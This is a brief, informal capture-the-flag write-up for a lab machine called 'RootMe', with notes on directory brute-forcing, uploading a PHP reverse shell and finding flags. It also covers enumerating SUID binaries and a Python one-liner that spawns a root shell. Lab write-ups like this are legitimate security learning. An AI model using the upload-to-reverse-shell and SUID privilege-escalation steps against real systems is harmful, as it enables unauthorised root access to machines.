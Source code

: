 ### RootMe ###

export IP=10.10.116.232

nothing too great on nmap....found /panel/ by gobuster which includes a file upload so mayb that helps...using standard rev_shell_php...

found an uploads dir too...ran the rev shell got the rev shell..

find / -name user.txt 2>/dev/null

found the user flag in /var/www

find / -type f -perm -u+s 2>/dev/null

found /usr/bin/python which has a suid set to root

tried many things but found this on gtfobins:

./python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

idk y this works though....need to do some research on execl...

and found the root flag:
